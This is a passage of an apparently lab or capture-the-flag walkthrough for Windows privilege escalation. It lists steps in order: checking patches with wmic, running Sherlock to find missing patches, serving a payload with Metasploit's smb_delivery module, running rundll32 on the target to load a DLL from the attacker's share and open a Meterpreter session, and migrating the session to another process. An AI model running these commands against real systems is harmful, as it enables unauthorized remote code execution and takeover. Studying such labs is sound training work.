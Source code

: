 #### 2. Patch Level Enumeration
```cmd
# Open Command Prompt and check patches:
wmic qfe

# Expected result: Very few patches, severely outdated system
Caption                                     HotFixID   InstallDate
http://support.microsoft.com/?kbid=2533552  KB2533552  3/31/2021
```

#### 3. Vulnerability Assessment
```powershell
# Set PowerShell execution policy:
Set-ExecutionPolicy bypass -Scope process
# Choose: Y (Yes)

# Navigate to tools and run Sherlock:
cd C:\Tools\
Import-Module .\Sherlock.ps1
Find-AllVulns

# Key findings:
MS10-092 - Task Scheduler .XML - Appears Vulnerable
MS15-051 - ClientCopyImage Win32k - Appears Vulnerable
MS16-032 - Secondary Logon Handle - Appears Vulnerable
```

#### 4. Metasploit Setup (Attack Machine)
```bash
# Start Metasploit:
sudo msfconsole -q
use exploit/windows/smb/smb_delivery

# Configure module:
set LHOST <your_vpn_ip>
set SRVHOST <your_vpn_ip>
exploit

# Copy the rundll32 command provided
# Example: rundll32.exe \\10.10.14.80\tXWM\test.dll,0
```

#### 5. Initial Shell (Target Machine)
```cmd
# Execute in Command Prompt on target:
rundll32.exe \\<your_vpn_ip>\<share>\test.dll,0

# Result: Meterpreter session established
```

#### 6. Process Migration (Attack Machine)
```bash
# Interact with session:
sessions -i 1

# Check processes and migrate to 64-bit:
ps
migrate <64bit_process_pid>    # e.g., migrate 1304

# Background session:
bg
```
